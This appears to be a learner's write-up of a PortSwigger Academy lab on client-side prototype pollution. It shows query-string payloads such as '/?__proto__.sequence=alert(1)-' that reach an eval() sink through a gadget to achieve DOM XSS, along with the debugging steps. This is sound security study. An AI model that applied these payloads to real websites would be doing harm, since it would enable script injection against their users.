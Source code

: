 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-2/"}
---
```



---

## Objective: Get DOM XSS

### Manual Method

We can notice this time the last query doesn't work, but we can use this

```
/?__proto__.foo=bar
```

Verify it worked

![Pasted image 20250330143553.png](/img/user/Images/Pasted%20image%2020250330143553.png)

Now, we check source to find potential gadgets. It will be noticable in `SearchLoggerAlternative.js` .

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

We have a Sink because the use of the function `eval()`

```js
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

We can also find the gadget from this line. `manager.sequence` is not being explicitly defined and is user-controllable input that is passed to `eval()`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

Now, we try to pass in the query to exploit

```
?__proto__.sequence=alert(1)
```

But we see that it does not work and returns an error in the console. Click the link at the top to jump to the line where `eval()` is called

![Pasted image 20250330145823.png](/img/user/Images/Pasted%20image%2020250330145823.png)

Put a breakpoint by clicking the line number, then refresh the page

![Pasted image 20250330150125.png](/img/user/Images/Pasted%20image%2020250330150125.png)

If we hover over the gadget reference, we can see that its value is `alert(1)1` .

![Pasted image 20250330150253.png](/img/user/Images/Pasted%20image%2020250330150253.png)

This indicates that our payload worked but because that we polluted `Object.prototype` earlier and because of this block, `sequence` has now inherited `alert(1)` and going down the line, it is concatenated by `1` , making the value of `sequence` property = `alert(1)1`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

### Exploit

To fix this syntax we can append `-` to our exploit

```
/?__proto__.sequence=alert(1)-
```

![Pasted image 20250330151502.png](/img/user/Images/Pasted%20image%2020250330151502.png)

